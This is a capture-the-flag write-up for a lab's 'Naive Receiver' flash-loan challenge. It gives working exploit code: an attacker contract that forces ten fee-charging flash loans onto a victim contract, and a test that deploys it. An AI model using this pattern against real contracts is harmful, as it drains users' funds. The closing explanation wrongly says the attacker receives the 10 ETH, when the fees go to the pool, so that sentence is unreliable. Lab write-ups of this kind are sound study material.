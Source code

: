 # Challange #2 - Naive Receiver

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br />
This funcion allows users to borrow ETH from the pool. The pool will only send the ETH if the user’s contract has enough balance to pay the fee.

## [NaiveReceiverLenderPool.sol:](/CTF%20-%20Damn%20Vulnerable/contracts/naive-receiver/NaiveReceiverLenderPool.sol)
```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );

        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```

## [Attacker Contract](/CTF%20-%20Damn%20Vulnerable/contracts/attacker-contracts/AttackerNaiveReceiver.sol)

```solidity
import "../naive-receiver/NaiveReceiverLenderPool.sol";

contract AttackerNaiveReceiver {
    NaiveReceiverLenderPool pool;

    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    function exploit(address victim) public {
        for (int i = 0; i < 10; i++) {
            pool.flashLoan(victim, 1 ether);
        }
    }
}
```

## [Exploit](/CTF%20-%20Damn%20Vulnerable/test/naive-receiver/naive-receiver.challenge.js)

```javascript
it("Exploit", async function () {
	const AttackerFactory = await ethers.getContractFactory(
		"AttackerNaiveReceiver",
		attacker
	);
	const attackContract = await AttackerFactory.deploy(this.pool.address);

	await attackContract.exploit(this.receiver.address);
});
```

## Explanation

The attacker contract calls the `flashLoan` function 10 times, each time borrowing 1 ETH. The `receiveEther` function of the receiver contract is called 10 times, each time paying 1 ETH fee. The receiver contract has 10 ETH in balance, so it can pay the fee 10 times. The attacker contract receives 10 ETH in total.

